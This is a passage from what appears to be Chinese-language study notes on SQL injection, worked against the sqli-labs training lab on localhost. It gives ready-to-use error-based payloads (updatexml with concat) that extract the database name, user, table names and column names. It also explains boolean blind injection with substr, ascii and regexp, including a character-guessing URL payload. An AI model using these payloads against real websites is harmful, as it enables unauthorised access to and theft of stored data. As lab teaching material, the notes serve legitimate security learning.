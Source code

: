 - 相关SQL语句

具体例子可以见B站：<https://www.bilibili.com/video/BV1MA411L7TU?p=8>(第8集)
下面借用其中的一个例子，SQL语句如下：

```
http://localhost/sqli-labs-master/Less-5/?id=1'and updatexml(1,concat(0x7e,database(),
0x7e,user(),0x7e,@@datadir),1) --+
```
其中，**0x7e**是一个16进制的波浪号（~），拼接一个波浪号，可以分隔返回的值，便于查看。
**updataxml**函数中依次是：原来的值，要找的节点，更新后的值。当然当前语法是错误的，但是数据库名、用户等信息都被拼接进去了。
又如
```
http://localhost/sqli-labs-master/Less-5/?id=1'and updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema=database()),0x7e),1) --+
```
可以拿到当前数据库中的所有数据表名。
将上条SQL语句稍加修改，又能拿到一个数据表的所有列名：
```
http://localhost/sqli-labs-master/Less-5/?id=1'and updatexml(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_schema='security' and table_name='users'),0x7e),1) --+
```

### 盲注

#### 布尔盲注

- 可以理解为给网站一个判断题，根据反应的对错来猜测数据库信息。
    - **适用场景**：没有数据回显，若条件正确有结果，否则没结果
    - **利用方式**：构造判断条件，逐个猜测

- 布尔盲注相关SQL语法

    * 截取字符
      ```sql
      select mid('abcdefghijklmn',5,5);
      select substr('abcdefghijklmn',5,5);
      select left('abcdefghijklmn',5);
      ```
    * 转成ASCII码
      ```sql
      select ord('a');
      select ascii('a');
      ```
    * 正则表达式
      ```sql
      select user() regexp '^se';	#判断是不是以se开头的
      select user() like 'se%'		#与上条语句含义相同
      ```

    相关练习可以参照B站视频：<https://www.bilibili.com/video/BV1MA411L7TU?p=7>（第七集）
    借用视频中提到的一个例子，在网址中输入如下语句：

    ```url
    http://localhost/sqli-labs-master/Less-5/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101 --+
    ```
这是用来判断当前数据库第1张数据表的表名的第1位是什么字符。
